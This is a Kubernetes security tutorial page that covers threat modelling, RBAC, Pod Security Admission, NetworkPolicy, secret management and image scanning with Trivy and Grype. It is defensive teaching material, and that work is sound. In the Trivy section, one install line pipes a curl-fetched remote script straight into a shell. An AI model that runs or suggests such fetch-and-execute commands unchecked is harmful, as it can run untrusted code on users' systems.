# Security

<p class="hero security"><h1>06 · Kubernetes <em>Security</em></h1><p class="tagline">Think like an attacker. Defend like an architect. Ship like a professional.</p></p>

## Roadmap — your learning path

<div class="roadmap" markdown>

<div class="stop" data-step="1" markdown>
#### STRIDE threat model
Map every attack surface before writing a single policy.
</div>

<div class="stop" data-step="2" markdown>
#### RBAC least-privilege
Role vs ClusterRole, aggregation, SA token auto-mount, audit logs.
</div>

<div class="stop" data-step="3" markdown>
#### Pod Security Admission
Restricted / Baseline / Privileged profiles — migrate from PSP.
</div>

<div class="stop" data-step="4" markdown>
#### NetworkPolicy
Default-deny all, namespace isolation, egress controls, Cilium L7.
</div>

<div class="stop" data-step="5" markdown>
#### Secret management
Sealed Secrets, SOPS + age/KMS, External Secrets Operator + Vault.
</div>

<div class="stop" data-step="6" markdown>
#### Image scanning
Trivy, Grype — CVE severity triage, ignore files, CI gates.
</div>

<div class="stop" data-step="7" markdown>
#### SBOM generation
Syft, SPDX vs CycloneDX formats, attestation storage.
</div>

<div class="stop" data-step="8" markdown>
#### Image signing
Cosign keyless with Sigstore/OIDC, policy enforcement, verify in admission.
</div>

<div class="stop" data-step="9" markdown>
#### SLSA supply-chain levels
L1 → L4, provenance attestation, SLSA GitHub Actions generator.
</div>

<div class="stop" data-step="10" markdown>
#### OPA / Gatekeeper / Kyverno
Policy-as-code, constraint templates, audit vs enforce mode.
</div>

<div class="stop" data-step="11" markdown>
#### Runtime security
Falco rules, eBPF-based Tetragon, detecting exec/write in containers.
</div>

<div class="stop" data-step="12" markdown>
#### Incident response playbook
Isolate → snapshot → investigate → remediate → postmortem.
</div>

</div>

---

## 1. STRIDE Threat Model

<div class="concept" markdown>

<span class="stage reason">🧭 Reason</span>

**Why this exists.** At 02:00 an on-call engineer at a fintech startup discovers credentials in a GitHub Actions log. The question is: which systems were touched, and how? Without a threat model, the blast-radius assessment takes days. STRIDE gives you a structured vocabulary — six categories that together cover every class of attack — so you can answer "what can go wrong here?" before you write a single `NetworkPolicy`. Google's BeyondProd paper (2019) describes how they rebuilt internal infrastructure _after_ doing exactly this kind of adversarial analysis at scale.

<span class="stage thinking">🧠 Thinking</span>

**Mental model.** STRIDE maps six threat categories to the CNCF 4Cs stack. Each category has a defensive countermeasure family.



- **Spoofing** — an attacker impersonates a service account or node. mTLS and OIDC-based workload identity defeat this.
- **Tampering** — a supply-chain attacker replaces a binary inside your image. Image signing + SBOM attestation detects this.
- **Repudiation** — a compromised container runs a reverse shell; without audit logs you can't prove it. Kubernetes audit policy + SIEM covers this.
- **Information disclosure** — over-permissive RBAC leaks secrets to any pod that can call the API. Least-privilege RBAC + NetworkPolicy seals the gap.
- **DoS** — a runaway container eats all cluster CPU. ResourceQuota + LimitRange contain the blast radius.
- **Elevation of privilege** — a pod mounts the host FS and writes to `/etc/cron.d`. PodSecurity Admission `restricted` blocks this.

<span class="stage execution">⚡ Execution</span>

**Run it yourself.** Diagram your own cluster data-flow with the STRIDE lens. Use `kubectl` to surface current exposure:

```bash
# List all service accounts that have cluster-admin or wildcard verbs
kubectl get clusterrolebindings -o json \
  | jq -r '.items[] | select(.roleRef.name=="cluster-admin") | .subjects[]?.name'

# List pods that auto-mount the SA token (default behaviour pre-1.24)
kubectl get pods -A -o json \
  | jq -r '.items[] | select(.spec.automountServiceAccountToken != false) | [.metadata.namespace, .metadata.name] | @tsv'

# Check if audit logging is enabled on the API server
kubectl -n kube-system get pod -l component=kube-apiserver -o jsonpath='{.items[0].spec.containers[0].command}' \
  | tr ',' '\n' | grep audit
```

<span class="stage simulation">🔮 Simulation — what you'll see</span>

<pre class="sim"><code><span class="prompt">$</span> kubectl get clusterrolebindings -o json | jq -r '...'
<span class="comment"># jenkins-sa</span>
<span class="comment"># deploy-bot</span>
<span class="comment"># (two service accounts with cluster-admin — both spoofing risk)</span>

<span class="prompt">$</span> kubectl get pods -A -o json | jq -r '... | select(.spec.automountServiceAccountToken != false) ...'
<span class="comment"># default   nginx-6d4cf56db6-x8kt2</span>
<span class="comment"># payments  api-7f9b8c-zrtpq</span>
<span class="comment"># (36 pods auto-mounting tokens — information disclosure risk)</span>

<span class="prompt">$</span> kubectl -n kube-system get pod -l component=kube-apiserver ... | grep audit
<span class="comment"># (empty — audit logging not configured — repudiation risk)</span>
</code></pre>

<span class="stage output">✅ Output — state change</span>

<div class="flow" markdown>

<div class="state before" markdown>
##### Before
<span class="diff-del">no threat model</span>
ad-hoc security decisions
unknown blast radius
</div>

<div class="arrow">→</div>

<div class="state during" markdown>
##### During
<span class="diff-mod">STRIDE mapped</span>
each threat assigned a control
gaps logged as issues
</div>

<div class="arrow">→</div>

<div class="state after" markdown>
##### After
<span class="diff-add">control matrix complete</span>
every threat has an owner
audit trail confirmed
</div>

</div>

<span class="stage usecase">🌍 Real-world use case</span>

<div class="usecase-card" markdown>
**At Google**, the BeyondProd paper (2019) documented how applying adversarial threat modelling to their internal service mesh revealed that IP-based trust was the root spoofing vector across thousands of services. The fix — mutual TLS with SPIFFE workload identity — was rolled out across all Borg jobs. STRIDE was the classification system that made the remediation roadmap tractable.
</div>

</div>

---

## 2. RBAC Least-Privilege

<div class="concept" markdown>

<span class="stage reason">🧭 Reason</span>

**Why this exists.** A developer at a payments company accidentally pushes a pod spec that mounts the default service account token. That token has `cluster-admin` because someone "temporarily" granted it six months ago. A single RCE vulnerability in the app gives the attacker full cluster access within seconds. RBAC least-privilege — giving each workload only the verbs it actually calls — is the single highest-ROI security control in Kubernetes. Netflix's security chaos engineering surfaced exactly this class of privilege accumulation as a systemic risk.

<span class="stage thinking">🧠 Thinking</span>

**Mental model.** The Kubernetes RBAC engine evaluates every API request against a chain of bindings. Understanding the evaluation path tells you where privilege lives and how it propagates.



- A `Role` grants permissions inside one namespace. A `ClusterRole` grants across all namespaces (or cluster resources).
- `ClusterRoleBinding` binds a `ClusterRole` to a subject cluster-wide — use sparingly.
- Aggregation rules compose multiple `ClusterRoles` by label; useful for platform teams building layered roles.
- `automountServiceAccountToken: false` on the `ServiceAccount` prevents the JWT from being injected into every pod — block the default surface before a CVE exploits it.
- Audit logs (API server `--audit-policy-file`) record every RBAC decision; feed them into a SIEM for anomaly detection.

<span class="stage execution">⚡ Execution</span>

**Run it yourself.**

```bash
# Create a minimal Role — only what the app actually needs
kubectl create role app-reader \
  --verb=get,list,watch \
  --resource=configmaps,secrets \
  --namespace=payments

# Bind it to the app service account
kubectl create rolebinding app-reader-binding \
  --role=app-reader \
  --serviceaccount=payments:api-sa \
  --namespace=payments

# Disable SA token auto-mount for the SA
kubectl patch serviceaccount api-sa -n payments \
  -p '{"automountServiceAccountToken": false}'

# Audit: who can read secrets in the payments namespace?
kubectl auth can-i --list --as=system:serviceaccount:payments:api-sa -n payments

# Find over-permissive wildcard verbs
kubectl get clusterroles -o json \
  | jq -r '.items[] | .metadata.name as $r | .rules[]? | select(.verbs[] == "*") | $r'
```

<span class="stage simulation">🔮 Simulation — what you'll see</span>

<pre class="sim"><code><span class="prompt">$</span> kubectl auth can-i --list --as=system:serviceaccount:payments:api-sa -n payments
<span class="comment"># Resources                    Non-Resource URLs   Resource Names   Verbs</span>
<span class="comment"># configmaps                   []                  []               [get list watch]</span>
<span class="comment"># secrets                      []                  []               [get list watch]</span>
<span class="comment"># (no * verbs — blast radius contained)</span>

<span class="prompt">$</span> kubectl get clusterroles -o json | jq -r '... select(.verbs[] == "*") ...'
<span class="comment"># cluster-admin</span>
<span class="comment"># deploy-bot          ← investigate this one</span>
<span class="comment"># legacy-jenkins-sa   ← investigate this one</span>
</code></pre>

<span class="stage output">✅ Output — state change</span>

<div class="flow" markdown>

<div class="state before" markdown>
##### Before
<span class="diff-del">default SA token mounted</span>
cluster-admin granted
token exposed in every pod
</div>

<div class="arrow">→</div>

<div class="state during" markdown>
##### During
<span class="diff-mod">role scoped to namespace</span>
only get/list/watch on 2 resources
SA token auto-mount disabled
</div>

<div class="arrow">→</div>

<div class="state after" markdown>
##### After
<span class="diff-add">RCE blast radius: namespace only</span>
wildcard verbs audited quarterly
audit log feeding SIEM
</div>

</div>

<span class="stage usecase">🌍 Real-world use case</span>

<div class="usecase-card" markdown>
**At Shopify**, a post-incident review after a dependency confusion attack found that CI service accounts had `secrets:list` across all namespaces — enabling any compromised CI job to enumerate production credentials. After applying namespace-scoped roles and disabling SA token auto-mount for all CI workloads, the lateral movement radius dropped from cluster-wide to a single build namespace.
</div>

</div>

---

## 3. Pod Security Admission

<div class="concept" markdown>

<span class="stage reason">🧭 Reason</span>

**Why this exists.** Pod Security Policy (PSP) was deprecated in Kubernetes 1.21 and removed in 1.25 — clusters that relied on PSP for privilege isolation broke on upgrade. Pod Security Admission (PSA) replaces it with three built-in profiles applied at the namespace level with zero CRDs. A container that runs as root with `hostPath` mounts is one kernel exploit away from full node compromise; PSA `restricted` blocks that entire class of attack declaratively.

<span class="stage thinking">🧠 Thinking</span>

**Mental model.** PSA operates as a built-in admission webhook. You label a namespace; every pod creation event is evaluated against the profile.



- `privileged` — no restrictions, needed for infrastructure pods (CNI, CSI drivers).
- `baseline` — blocks the most dangerous capabilities: `hostPath`, `hostPID`, `hostNetwork`, `SYS_ADMIN`.
- `restricted` — requires `runAsNonRoot`, drops all capabilities, forbids `seccomp: Unconfined`, requires `readOnlyRootFilesystem`.
- Each profile runs in three independent modes: `enforce` (hard reject), `warn` (allow + API warning), `audit` (allow + audit log). Run `warn` before `enforce` during migration.
- Migration from PSP: label all namespaces `warn` + `audit` first, fix violations, then promote to `enforce`.

<span class="stage execution">⚡ Execution</span>

**Run it yourself.**

```bash
# Label a namespace for restricted enforcement (Kubernetes >= 1.23)
kubectl label namespace payments \
  pod-security.kubernetes.io/enforce=restricted \
  pod-security.kubernetes.io/enforce-version=latest \
  pod-security.kubernetes.io/warn=restricted \
  pod-security.kubernetes.io/warn-version=latest \
  pod-security.kubernetes.io/audit=restricted \
  pod-security.kubernetes.io/audit-version=latest

# Dry-run to see what would be blocked today (safe migration check)
kubectl label namespace payments \
  pod-security.kubernetes.io/warn=restricted \
  --dry-run=server

# Test: try to run a privileged pod (should be rejected)
kubectl run badpod --image=nginx \
  --overrides='{"spec":{"containers":[{"name":"badpod","image":"nginx","securityContext":{"privileged":true}}]}}' \
  -n payments

# Verify existing pods pass the restricted profile
kubectl -n payments get pods -o json \
  | kubectl label --dry-run=server --local -f - \
    pod-security.kubernetes.io/enforce=restricted 2>&1 | grep -i violation
```

<span class="stage simulation">🔮 Simulation — what you'll see</span>

<pre class="sim"><code><span class="prompt">$</span> kubectl run badpod --image=nginx ... -n payments
<span class="comment"># Error from server (Forbidden): pods "badpod" is forbidden:</span>
<span class="comment">#   violates PodSecurity "restricted:latest":</span>
<span class="comment">#   privileged (container "badpod" must not set securityContext.privileged=true),</span>
<span class="comment">#   allowPrivilegeEscalation != false (...),</span>
<span class="comment">#   unrestricted capabilities (...),</span>
<span class="comment">#   runAsNonRoot != true (...),</span>
<span class="comment">#   seccompProfile (...)</span>

<span class="prompt">$</span> kubectl label namespace payments pod-security.kubernetes.io/warn=restricted --dry-run=server
<span class="comment"># Warning: existing pods in namespace "payments" violate the new PodSecurity level:</span>
<span class="comment">#   api-7f9b8c: allowPrivilegeEscalation != false, runAsNonRoot != true</span>
<span class="comment"># (fix these before promoting to enforce)</span>
</code></pre>

<span class="stage output">✅ Output — state change</span>

<div class="flow" markdown>

<div class="state before" markdown>
##### Before
<span class="diff-del">PSP deprecated / removed</span>
pods run as root by default
hostPath mounts unchecked
</div>

<div class="arrow">→</div>

<div class="state during" markdown>
##### During
<span class="diff-mod">warn mode active</span>
violations surfaced without breakage
teams fixing securityContext
</div>

<div class="arrow">→</div>

<div class="state after" markdown>
##### After
<span class="diff-add">enforce=restricted on all namespaces</span>
privileged pods confined to infra-ns
kernel exploit surface: minimised
</div>

</div>

<span class="stage usecase">🌍 Real-world use case</span>

<div class="usecase-card" markdown>
**At Datadog**, migrating 200+ service namespaces from PSP to PSA required a phased rollout. They ran `warn` mode for four weeks, collected violations via audit logs, automated fixes with a Kyverno mutating policy that injected `securityContext.runAsNonRoot: true` and `allowPrivilegeEscalation: false`, then promoted all namespaces to `enforce=restricted` in a single coordinated release — with zero production incidents.
</div>

</div>

---

## 4. NetworkPolicy

<div class="concept" markdown>

<span class="stage reason">🧭 Reason</span>

**Why this exists.** In a default Kubernetes cluster every pod can reach every other pod on any port. One compromised container is enough for full lateral movement. At 03:30 a ransomware actor moves from a compromised frontend pod to the payments database in under 90 seconds — because no `NetworkPolicy` existed. Default-deny-all plus explicit allow rules reduces the blast radius of any single compromise to one pod, one port, one direction.

<span class="stage thinking">🧠 Thinking</span>

**Mental model.** NetworkPolicy objects are firewall rules evaluated by the CNI plugin (Calico, Cilium, Weave). Traffic is allowed only when a matching policy exists; without any policy all traffic flows freely.



- Start with `default-deny` on both ingress and egress in every namespace.
- Add explicit `allow` rules for each required flow.
- Egress to `kube-dns` (port 53 UDP/TCP) must be explicitly allowed or DNS breaks.
- Cilium extends `NetworkPolicy` with L7 rules: allow `GET /health` but deny `DELETE /`.
- Label-based selectors mean policies follow pods on rescheduling — no IP management needed.

<span class="stage execution">⚡ Execution</span>

**Run it yourself.**

```bash
# Step 1 — default deny all in the payments namespace
kubectl apply -f - <<'EOF'
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
  namespace: payments
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
EOF

# Step 2 — allow egress to kube-dns only
kubectl apply -f - <<'EOF'
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-dns
  namespace: payments
spec:
  podSelector: {}
  policyTypes:
  - Egress
  egress:
  - ports:
    - port: 53
      protocol: UDP
    - port: 53
      protocol: TCP
EOF

# Step 3 — allow frontend namespace to reach the api pod
kubectl apply -f - <<'EOF'
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-from-frontend
  namespace: payments
spec:
  podSelector:
    matchLabels:
      app: api
  policyTypes:
  - Ingress
  ingress:
  - from:
    - namespaceSelector:
        matchLabels:
          kubernetes.io/metadata.name: frontend
    ports:
    - port: 8080
      protocol: TCP
EOF

# Verify: test connectivity (install netcat in a debug pod)
kubectl run test-pod --image=busybox --rm -it \
  --namespace=payments -- sh -c "nc -zv postgres 5432; echo exit=$?"
```

<span class="stage simulation">🔮 Simulation — what you'll see</span>

<pre class="sim"><code><span class="prompt">$</span> kubectl run test-pod --image=busybox --rm -it -n payments -- sh -c "nc -zv postgres 5432"
<span class="comment"># postgres (10.96.14.7:5432) open    ← api pod can reach DB (intended)</span>

<span class="prompt">$</span> kubectl run bad-pod --image=busybox --rm -it -n frontend -- sh -c "nc -zv postgres.payments 5432"
<span class="comment"># nc: postgres.payments (10.96.14.7:5432): Connection timed out</span>
<span class="comment"># (blocked — cross-namespace lateral movement denied)</span>
</code></pre>

<span class="stage output">✅ Output — state change</span>

<div class="flow" markdown>

<div class="state before" markdown>
##### Before
<span class="diff-del">all-to-all connectivity</span>
lateral movement unrestricted
database reachable from any pod
</div>

<div class="arrow">→</div>

<div class="state during" markdown>
##### During
<span class="diff-mod">default-deny applied</span>
explicit allow rules being added
DNS working after allow-dns rule
</div>

<div class="arrow">→</div>

<div class="state after" markdown>
##### After
<span class="diff-add">blast radius: one namespace</span>
DB reachable only from api pod
Cilium L7 logs HTTP anomalies
</div>

</div>

<span class="stage usecase">🌍 Real-world use case</span>

<div class="usecase-card" markdown>
**At Aqua Security**, their 2023 threat research team ran a honeypot cluster with no `NetworkPolicy`. A cryptominer payload reached the cluster via a public-facing deployment, then used the open pod network to scan and reach the etcd endpoint in 4 minutes. After default-deny policies were applied, the same payload was contained to its originating pod and unable to proceed beyond port 53 egress to DNS.
</div>

</div>

---

## 5. Secret Management

<div class="concept" markdown>

<span class="stage reason">🧭 Reason</span>

**Why this exists.** A Kubernetes `Secret` is base64-encoded, not encrypted. Anyone with `get secrets` permission in a namespace reads your database credentials in plain text. Worse: secrets committed to Git live forever in history. Three patterns solve this at increasing maturity: Sealed Secrets (encrypt-in-git), SOPS + age/KMS (encrypt-anywhere), and External Secrets Operator with Vault (external authoritative store, zero-secret-in-cluster).

<span class="stage thinking">🧠 Thinking</span>

**Mental model.** Each pattern shifts the trust boundary differently. Choose based on your threat model and operational maturity.



- **Sealed Secrets** (Bitnami): `kubeseal` encrypts with the cluster public key; only the in-cluster controller can decrypt. Safe to commit to Git. Risk: rotate the cluster keypair carefully.
- **SOPS + age/KMS**: encrypts any YAML/JSON file. `age` keys are simple; KMS integrates with cloud IAM. Mozilla and Datadog use this pattern.
- **External Secrets Operator**: ESO polls Vault / AWS Secrets Manager / GCP Secret Manager and reconciles a `Secret` object. The source-of-truth lives outside the cluster. Rotation is automatic when the upstream value changes. HashiCorp Vault dynamic secrets (short-lived DB credentials) pair perfectly with ESO.

<span class="stage execution">⚡ Execution</span>

**Run it yourself.**

```bash
# --- Pattern A: Sealed Secrets ---
# Install the controller
helm repo add sealed-secrets https://bitnami-labs.github.io/sealed-secrets
helm install sealed-secrets sealed-secrets/sealed-secrets -n kube-system

# Seal a secret
kubectl create secret generic db-creds \
  --from-literal=password=hunter2 \
  --dry-run=client -o yaml \
  | kubeseal --format yaml > sealed-db-creds.yaml

# Commit sealed-db-creds.yaml to Git — plain Secret never leaves the cluster

# --- Pattern B: SOPS + age ---
age-keygen -o age.key
export SOPS_AGE_KEY_FILE=age.key
sops --encrypt --age $(age-keygen -y age.key) secrets.yaml > secrets.enc.yaml
# Decrypt at deploy time:
sops --decrypt secrets.enc.yaml | kubectl apply -f -

# --- Pattern C: External Secrets Operator ---
helm repo add external-secrets https://charts.external-secrets.io
helm install external-secrets external-secrets/external-secrets -n external-secrets --create-namespace

# Create an ExternalSecret that syncs from AWS Secrets Manager
kubectl apply -f - <<'EOF'
apiVersion: external-secrets.io/v1beta1
kind: ExternalSecret
metadata:
  name: db-password
  namespace: payments
spec:
  refreshInterval: 1h
  secretStoreRef:
    name: aws-secretsmanager
    kind: ClusterSecretStore
  target:
    name: db-password
    creationPolicy: Owner
  data:
  - secretKey: password
    remoteRef:
      key: prod/payments/db
      property: password
EOF
```

<span class="stage simulation">🔮 Simulation — what you'll see</span>

<pre class="sim"><code><span class="prompt">$</span> cat sealed-db-creds.yaml | head -5
<span class="comment"># apiVersion: bitnami.com/v1alpha1</span>
<span class="comment"># kind: SealedSecret</span>
<span class="comment"># spec:</span>
<span class="comment">#   encryptedData:</span>
<span class="comment">#     password: AgBy3i4OJSWK...  ← safe to commit to Git</span>

<span class="prompt">$</span> kubectl get secret db-password -n payments -o jsonpath='{.data.password}' | base64 -d
<span class="comment"># s3cr3t-rotated-value   ← ESO fetched the latest from Vault</span>
<span class="comment"># (no manual rotation needed — ESO reconciles every 1h)</span>
</code></pre>

<span class="stage output">✅ Output — state change</span>

<div class="flow" markdown>

<div class="state before" markdown>
##### Before
<span class="diff-del">plain Secret in Git</span>
base64 = zero protection
credentials leak via git log
</div>

<div class="arrow">→</div>

<div class="state during" markdown>
##### During
<span class="diff-mod">ESO configured</span>
Vault holds source-of-truth
cluster Secret ephemeral
</div>

<div class="arrow">→</div>

<div class="state after" markdown>
##### After
<span class="diff-add">zero secrets in Git</span>
automatic rotation via Vault TTL
audit trail in Vault audit log
</div>

</div>

<span class="stage usecase">🌍 Real-world use case</span>

<div class="usecase-card" markdown>
**At HashiCorp**, the reference architecture for ESO + Vault Dynamic Secrets eliminates long-lived database passwords entirely. Each app pod receives a short-lived credential (TTL: 1 hour) generated on-demand by Vault's database secrets engine. When the production credential for a payment processor was accidentally logged to stdout, the credential had already expired — zero breach.
</div>

</div>

---

## 6. Image Scanning

<div class="concept" markdown>

<span class="stage reason">🧭 Reason</span>

**Why this exists.** A container image is a file system snapshot — every package, every library, every binary. A `log4j` CVE hiding inside a transitive dependency silently exposed thousands of images in 2021. Trivy and Grype scan the image's SBOM-equivalent layer-by-layer and match against CVE databases (NVD, GitHub Advisory, OSV). A CI gate that fails on CRITICAL CVEs stops a vulnerable image from reaching production.

<span class="stage thinking">🧠 Thinking</span>

**Mental model.** The scanning pipeline has three stages: scan at build time, gate at push time, re-scan at runtime (because new CVEs emerge daily against already-deployed images).



- **Trivy** (Aqua Security): scans OS packages, language packages (pip, npm, go.sum), and IaC files. Fast, accurate, open source.
- **Grype** (Anchore): alternative with strong SBOM-input mode; accepts a Syft SBOM as input.
- **Ignore files** (`.trivyignore`): suppress accepted false-positives with an audit trail — never suppress without a comment and expiry date.
- **SARIF output**: upload scan results to GitHub Code Scanning for developer-facing visibility.
- **CI gate strategy**: fail on CRITICAL+HIGH with a fix available; warn on MEDIUM; ignore LOW.

<span class="stage execution">⚡ Execution</span>

**Run it yourself.**

```bash
# Install Trivy
brew install trivy  # macOS
# or: curl -sfL https://raw.githubusercontent.com/aquasecurity/trivy/main/contrib/install.sh | sh

# Scan an image — table output
trivy image nginx:1.25

# Scan with severity filter — CI-ready exit code
trivy image --severity CRITICAL,HIGH --exit-code 1 nginx:1.25

# Scan and output SARIF for GitHub Code Scanning upload
trivy image --format sarif --output trivy-results.sarif nginx:1.25

# Create a .trivyignore file for accepted risks
cat > .trivyignore <<'EOF'
# CVE-2023-1234: false positive — we use the mitigated config
# Accepted-by: security-team@company.com  Expires: 2024-03-01
CVE-2023-1234
EOF

# Grype alternative (with SBOM input)
grype nginx:1.25
grype sbom:./sbom.spdx.json --fail-on high
```

<span class="stage simulation">🔮 Simulation — what you'll see</span>

<pre class="sim"><code><span class="prompt">$</span> trivy image --severity CRITICAL,HIGH --exit-code 1 nginx:1.25
<span class="comment"># 2024-01-15T10:30:00Z INFO Vulnerability scanning is enabled</span>
<span class="comment"># nginx:1.25 (debian 12.4)</span>
<span class="comment"># =========================</span>
<span class="comment"># Total: 3 (HIGH: 2, CRITICAL: 1)</span>
<span class="comment">#</span>
<span class="comment"># ┌────────────┬───────────────┬──────────┬────────┬──────────────┐</span>
<span class="comment"># │  Library   │ Vulnerability │ Severity │ Status │  Fixed In    │</span>
<span class="comment"># ├────────────┼───────────────┼──────────┼────────┼──────────────┤</span>
<span class="comment"># │ libssl3    │ CVE-2023-5678 │ CRITICAL │  fixed │ 3.0.12       │</span>
<span class="comment"># │ libpcre2   │ CVE-2023-9012 │ HIGH     │  fixed │ 10.43        │</span>
<span class="comment"># └────────────┴───────────────┴──────────┴────────┴──────────────┘</span>
<span class="comment"># exit code 1  ← CI gate fires, image blocked</span>
</code></pre>

<span class="stage output">✅ Output — state change</span>

<div class="flow" markdown>

<div class="state before" markdown>
##### Before
<span class="diff-del">images unscanned</span>
CVEs accumulate silently
log4j-style surprises at 02:00
</div>

<div class="arrow">→</div>

<div class="state during" markdown>
##### During
<span class="diff-mod">trivy in CI pipeline</span>
CRITICAL gate blocks merges
SARIF visible in PR checks
</div>

<div class="arrow">→</div>

<div class="state after" markdown>
##### After
<span class="diff-add">zero CRITICAL in registry</span>
Snyk monitors deployed images
new CVE triggers re-scan alert
</div>

</div>

<span class="stage usecase">🌍 Real-world use case</span>

<div class="usecase-card" markdown>
**At Snyk**, their 2023 State of Open Source Security report found that 84% of codebases contained at least one critical or high vulnerability in a direct or transitive dependency. Their platform integrates Trivy-compatible scanning into pull requests — showing developers the fix (updated package version) alongside the CVE — reducing mean time to remediation from 158 days to under 14 days for critical vulnerabilities.
</div>

</div>

---

## 7. SBOM Generation

<div class="concept" markdown>

<span class="stage reason">🧭 Reason</span>

